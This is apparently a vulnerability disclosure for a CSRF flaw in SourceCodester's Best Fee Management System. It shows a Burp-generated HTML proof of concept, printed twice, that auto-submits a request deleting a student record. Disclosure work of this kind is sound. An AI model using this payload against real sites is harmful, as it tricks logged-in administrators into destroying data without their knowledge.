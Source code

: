 # Summary
SourceCodester Best Fee Management System Project has a CSRF vulnerability in `/click_fees/index.php?page=studens`, which allows attackers to trick administrators who are logged into the site to delete student information.

# Details
In url : `/click_fees/index.php?page=studens`
Choose module `Students` and choose option `delete`:
![image](https://github.com/user-attachments/assets/8d362cb6-5960-4267-8229-33dfa5bc9bf3)

Use burpsuite to intercept, finding that there's no csrf token for protection:
![image](https://github.com/user-attachments/assets/2af63635-089c-491e-bd0d-bd77bb05e8a1)

CSRF PoC:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://fee:84/click_fees/ajax.php?action=delete_student" method="POST">
      <input type="hidden" name="id" value="3" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![PoC](https://github.com/user-attachments/assets/30376271-f5dc-4730-9003-41f25696a394)

# PoC
CSRF PoC:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://fee:84/click_fees/ajax.php?action=delete_student" method="POST">
      <input type="hidden" name="id" value="3" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![PoC](https://github.com/user-attachments/assets/30376271-f5dc-4730-9003-41f25696a394)
